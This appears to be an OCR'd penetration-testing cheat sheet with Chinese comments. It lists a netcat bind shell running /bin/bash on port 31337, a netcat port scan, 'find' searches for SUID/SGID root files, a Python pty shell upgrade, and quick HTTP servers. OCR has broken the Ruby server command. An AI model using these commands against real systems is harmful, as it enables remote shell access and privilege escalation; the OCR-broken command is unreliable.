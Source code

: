 	nc -lp 31337 -e /bin/bash
	nc 192.168.0.10 31337
	nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000

----

# 查找 SUID/SGID root 文件
	# 查找 SUID root 文件
	find / -user root -perm -4000 -print

# 查找 SGID root 文件:
	find / -group root -perm -2000 -print

# 查找 SUID 和 SGID 文件:
	find / -perm -4000 -o -perm -2000 -print

# 查找不属于任何用户的文件:
	find / -nouser -print

# 查找不属于任何用户组的文件:
	find / -nogroup -print

# 查找软连接及其指向:

	find / -type l -ls
----

# Python shell
	python -c 'import pty;pty.spawn("/bin/bash")'
	Python/Ruby/PHP HTTP 服务器
	python2 -m SimpleHTTPServer
	python3 -m http.server
	ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :D ocumentRoot => Dir.pwd).start"

---

# php -S 0.0.0.0:8888
获取进程对应的 PID
fuser -nv tcp 80
fuser -k -n tcp 80

